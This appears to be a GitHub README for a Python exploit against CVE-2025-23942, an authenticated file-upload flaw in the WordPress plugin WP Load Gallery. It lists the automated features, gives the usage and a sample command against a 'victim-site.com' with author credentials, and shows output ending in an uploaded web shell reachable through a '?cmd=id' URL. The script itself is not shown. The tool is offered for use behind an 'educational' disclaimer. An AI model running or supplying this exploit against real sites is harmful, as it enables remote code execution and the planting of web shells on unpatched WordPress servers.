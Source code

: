 # WP Load Gallery Exploit (CVE-2025-23942)

## 📌 Description
Unrestricted Upload of File with Dangerous Type vulnerability in NgocCode WP Load Gallery allows Upload a Web Shell to a Web Server. This issue affects WP Load Gallery: from n/a through 2.1.6.

## ⚠️ Vulnerability Details
- **CVE ID:** CVE-2025-23942
- **Affected Plugin:** WP Load Gallery
- **Affected Versions:** Up to **2.1.6**
- **Vulnerability Type:** **Unrestricted File Upload**
- **Severity:** **Critical (9.1 CVSS)**
- **Attack Vector:** **Authenticated (Author+) Remote Code Execution (RCE)**
- **Patch Available:** ❌ (No official patch yet)

## 🚀 Features of the Exploit
✅ **Automated Exploitation** – Extracts nonce, logs in, and uploads the shell automatically.  
✅ **Version Check** – Confirms if the target is vulnerable before exploitation.  
✅ **Error Handling** – Ensures smooth execution even in case of failures.  
✅ **Session Handling** – Uses persistent session management for authentication.  
✅ **Real-time Feedback** – Provides output at each step.

## 🛠️ Requirements
- Python 3.x
- `requests` module (`pip install requests`)
- A valid **WordPress Author+ account** on the target system

## 🔥 Usage
Run the script with the necessary parameters:
```bash
usage: CVE-2025-23942.py [-h] -u URL -un USERNAME -p PASSWORD

Exploit WP Load Gallery - Arbitrary File Upload

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target WordPress URL (e.g., https://example.com)
  -un USERNAME, --username USERNAME
                        WordPress Username
  -p PASSWORD, --password PASSWORD
                        WordPress Password
```
Example:
```bash
python CVE-2025-23942.py -u http://victim-site.com -un author_user -p password123
```

## 📝 Output Example
```
   _______      ________    ___   ___ ___  _____     ___  ____   ___  _  _ ___  
  / ____\ \    / /  ____|  |__ \ / _ \__ \| ____|   |__ \|___ \ / _ \| || |__ \ 
 | |     \ \  / /| |__ ______ ) | | | | ) | |__ ______ ) | __) | (_) | || |_ ) |
 | |      \ \/ / |  __|______/ /| | | |/ /|___ \______/ / |__ < \__, |__   _/ / 
 | |____   \  /  | |____    / /_| |_| / /_ ___) |    / /_ ___) |  / /   | |/ /_ 
  \_____|   \/   |______|  |____|\___/____|____/    |____|____/  /_/    |_|____|

[+] Checking plugin version...
[+] Detected version: 2.1.6
[+] The target is vulnerable! Proceeding with exploitation...
[+] Logged in successfully.
[+] Extracting wplg_nonce...
[+] Extracted wplg_nonce: a1b2c3d4e5
[+] Uploading shell...
[+] File uploaded successfully!
[+] Shell is accessible at: http://victim-site.com/wp-content/uploads/2025/02/nxploit.php?cmd=id
```

## 📜 Legal Disclaimer
This exploit is intended for **educational and security research purposes only**. Do not use it on systems you do not own or have explicit permission to test. The author is **not responsible** for any misuse of this script. 
( Khaled_alenazi )






